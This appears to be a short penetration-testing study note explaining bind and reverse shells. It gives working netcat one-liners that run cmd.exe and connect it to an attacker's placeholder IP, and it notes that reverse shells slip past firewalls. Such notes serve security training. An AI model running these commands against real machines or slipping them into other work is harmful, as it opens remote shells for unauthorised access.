 ## Bind Shell
The shell is bound to a port and awaits its execution 

**How To**
- Victim Terminal: `nc -vnlp 4444 -e cmd.exe`
    -  -e = execute
- Kali Attacker: `nc [IPv4] 4444`

**Disadvantages**
- No interaction with started programs possible (e.g. wget, nano)
- shell-rights subject to process rights. Privilege escalation often necessary 
- Bind Shells often trigger firewalls, because access to shells happens from outside to inside 

## Reverse Shell
The shell is established from target network (inside) to attacker server (outside) as it gets activated.

**How To**
- Kali Attacker: `nc -nvlp 443` (Listening often on port 80/TCP or 443/TCP)
- Victim: `nc -vn [IPv4] 443 -e cmd.exe`

**Advantage**
- Firewalls often allow outbound traffic of reverse shells
